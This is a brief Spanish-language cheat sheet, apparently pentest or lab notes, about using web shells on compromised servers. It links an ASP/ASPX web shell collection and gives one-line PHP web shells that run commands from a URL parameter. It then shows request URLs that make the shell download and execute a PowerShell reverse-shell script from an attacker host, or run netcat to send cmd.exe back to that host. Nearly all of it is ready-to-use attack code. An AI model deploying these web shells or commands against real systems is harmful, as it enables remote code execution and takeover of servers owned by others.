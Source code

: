 • WEB SHELL ASP y ASPX: https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.asp


* Web Shell PHP
```
<?php system($_GET['cmd']); ?>
<?php passthru($_GET['cmd']); ?>
```


Desde estas web shell SE PUEDE LLAMAR llamamos a Invoke-Powershell.ps1:

```
http://10.10.10.97:8808/webshell.php?cmd=powershell%20-c%20IEX%20(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.5/Invoke-PowerShellTcp.ps1%27)
#O BIEN A UN CMD CON NC (LO TENEMOS QUE SUBIR ANTES) → http://10.10.10.97:8808/webshell.php?cmd=nc.exe%20-e%20cmd.exe%2010.10.14.5%20443
```
